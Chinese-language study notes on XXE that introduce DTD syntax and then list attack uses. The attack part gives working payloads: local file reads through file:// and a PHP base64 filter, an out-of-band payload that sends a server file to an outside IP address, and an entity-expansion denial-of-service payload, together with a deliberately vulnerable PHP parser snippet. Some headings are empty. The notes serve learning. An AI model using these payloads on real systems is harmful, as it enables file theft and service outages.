






# XXE

## 什么是XXE漏洞



其中，内网探测是比较比较极端的，因为它依赖于一些特定的插件；


## DTD

DTD文件一般和XML文件配合使用，主要是为了约束XML文件。

https://www.runoob.com/dtd/dtd-tutorial.html

### DTD约束快速入门案例

基本语法

```
<!ELEMENT 元素名  类型>
```


以班级为例，编写如下DTD文件，myClass.dtd

```
<!ELEMENT 班级 (学生+)>             		# +号可以理解为正则，表示可以有多个学生
<!ELEMENT 学生 (名字,年龄,介绍)>
<!ELEMENT 名字 (#PCDATA)>
<!ELEMENT 年龄 (#PCDATA)>
<!ELEMENT 介绍 (#PCDATA)>
```

第一行表示根元素为班级，并且有学生这个子元素，子元素为1或者多个。
第二行表示学生的子元素为名字，年龄，介绍
名字下面没有子元素了，那么#PCDATA（其实就是一种数据类型）表示名字里面可以放任意文本。
年龄和介绍也是类似。

编写myClass.xml文件并引入DTD文件如下：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!--引入dtd文件，约束这个xml-->
<!DOCTYPE 班级 SYSTEM "myClass.dtd">
<班级>
    <学生>
        <名字>周小星</名字>    
        <年龄>23</年龄>
        <介绍>学习刻苦</介绍>
    </学生>   
    <学生>
        <名字>林晓</名字> 
        <年龄>25</年龄>
        <介绍>是一个好学生</介绍>
    </学生>   
</班级>
```

引入中写的：SYSTEM，表示当前的DTD文件是本地的，如果写的是PUBLIC，则表示引入的DTD文件是来自于网络的。

当然也可以将dtd文件直接下载xml文件当中。




## DTD细节

### DTD文档的声明及引用

1、内部DTD文档

```
<!DOCTYPE 根元素 [定义内容]>
```

**2、外部DTD文档**

引入外部的DTD文档分为两种：

a.当引用的DTD文件是本地文件的时候，用SYSTEM标识，并写上”DTD的文件路径”，如下：

```
<!DOCTYPE 根元素 SYSTEM "DTD文件路径">
```

b.如果引用的DTD文件是一个公共的文件时(通常指的是网络上)，采用PUBLIC标识，如下方式：

```
<!DOCTYPE 根元素 PUBLIC "DTD名称" "DTD文件的URL">
如：
<!DOCTYPE web-app PUBLIC "-//Sun Microsystems,Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">
```


### DTD基本语法

```
<!ELEMENT NAME CONTENT>
```

其中：
- ELEMENT是关键字，是不能修改的
- NAME表示元素名称
- CONTENT是元素类型，必须要大写！CONTENT的内容有三种写法：

```
(1)EMPTY——表示该元素不能包含子元素和文本，但可以有属性。
(2)ANY——表示该元素可以包含任何在该DTD中定义的元素内容
(3)#PCDATA——可以包含任何字符数据，但是不能在其中包含任何子元素
```


### DTD元素的组合类型

DTD中这样规定：

```xml
<!ELEMENT 家庭(人+,家电*)>
```

这个DTD规定了家庭元素中可以有1到多个”人”这个子元素，也可以有0到多个”家电”这个子元素。其中的加号”+”和星号”*”的含义与正则表达式中的含义一致。

XML这样写：

```xml
<家庭>
    <人 名字="张晓明" 性别="男" 年龄="25"/>
    <人 名字="李小钢" 性别="男" 年龄="36" 爱好="作个教育家和伟人"/>
    <家电 名称="彩电" 数量="3"/>
</家庭>
```


### 属性定义

DTD中属性的定义是这样的：

```xml
<!ATTLIST 元素名称
    属性名称 类型 属性特点
    属性名称 类型 属性特点......  
>
```

其中，属性的类型有下面5种：

```
(1) CDATA
(2) ID
(3) IDREF/IDREFS
(4) Enumerated
(5) ENTITY/ENTITIES
```

属性的特点有如下4种：

```
(1) #REQUIRED，表示这个属性必须给，不给就报错
(2) #IMPLIED，表示这个属性可以给也可以不给
(3) #FIXED value，表示这个属性必须给一个固定的value值
(4) Default value，表示这个属性如果没有值，就分配一个默认的value值
```

这个时候相应的DTD文件也要更新，不然就会报错，如下：

```
<!ELEMENT 班级 (学生+)>
<!ELEMENT 学生 (名字,年龄,介绍)>
<!ATTLIST 学生
    地址 CDATA #REQUIRED
>
<!ELEMENT 名字 (#PCDATA)>
<!ELEMENT 年龄 (#PCDATA)>
<!ELEMENT 介绍 (#PCDATA)>
```


### 脚本默认支持的外部实体协议



注意：PHP中，libxml2.9以上的版本php默认不会解析外部的实体类。使用`echo LIBXML_DOTTED_VERSION;`来查看PHP libxml的版本；


## 危害

参考：https://www.freebuf.com/articles/web/247639.html

### 通用payload

```
<?xml version="1.0"?>
<!DOCTYPE t [
    <!ENTITY xxe SYSTEM "file:///etc/p">
]>
<t>&xxe;</t>
```


### 文件读取（有回显）

-   File:///path/to/file.ext    # 不能直接读取php文件会报错，因为php文件里面有<>//等特殊字符；xml解析时候会当成xml语法来解析。这时候就分不清处哪个是真正的xml语句了，直接利用file协议读取PHP文件，就会产生报错。那么需要base64编码来读取
-   http://url/file.ext
-   PHP://filter/read=convert.base64-encode/resource=/home/bee/test.php  # 读取php文件


### 文件读取（无回显）

POCbox：https://github.com/0verSp4ce/PoCBox

在实际情况中，大多数情况下服务器上的 XML 并不是输出用的，所以就少了输出这一环节，这样的话，即使漏洞存在，我们的payload的也被解析了，但是由于没有输出，我们也不知道解析得到的内容是什么，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法。

**当无法直接获取响应内容时，可以将获取内容发送到远程服务器，OOB**

有以下代码：

```php
<?php
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
```

相较于前面有回显的漏洞代码，我们去掉了内容输出的一部分。这样，用之前的payload就没有作用了。下面是可用的payload：

```xml
<!-- eval.xml -->
<!ENTITY % payload SYSTEM "file:///etc/redhat-release">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://114.132.238.148:9/?id=%payload;'>">
%int;
%trick;

<!-- 上传的文件 -->
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://114.132.238.148:9093/eval.xml">
%remote;
]>
```

思路：

1、首先创建一个file外部实体来读取指定的文件，并使用base64进行编码；

2、创建第一个outer实体，该outer实例里面在创建一个inner外部实体，这个inner外部实体会去请求我们指定的http服务，在这个请求连接中将我们第一步创建的file实体读取的文件内容带上；

3、再去查看我们的服务器上的请求信息即可看到读取的文件的信息；


### 内网扫描

xxe 由于可以访问外部 url，也就有类似 ssrf 的攻击效果，同样的，也可以利用 xxe 来进行内网探测。可以先通过 file 协议读取一些配置文件来判断内网的配置以及规模，以便于编写脚本来探测内网。


### 内网端口扫描

根据回显的结果不同来判断端口是否开放；






### DDOS攻击

该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”abc”字符串，从而导致 DDoS 攻击。原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻击。


**进行递归调用，从下至上以指数形式增多；实验发现，小于1k的xml攻击payload可以消耗3G的内存。**

```
<?xml version="1.0"?>
<!DOCTYPE dos [
    <!ENTITY d1 "abc">
    <!ENTITY d2 "&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;&d1;">
    <!ENTITY d3 "&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;&d2;">
    <!ENTITY d4 "&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;&d3;">
    <!ENTITY d5 "&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;&d4;">
    <!ENTITY d6 "&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;&d5;">
    <!ENTITY d7 "&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;&d6;">
    <!ENTITY d8 "&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;&d7;">
    <!ENTITY d9 "&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;&d8;">
]>
<dos>&d9;</dos>
```


### expect命令执行

该扩展不是默认安装的，安装后可通过expect://来执行任意的php命令；



 
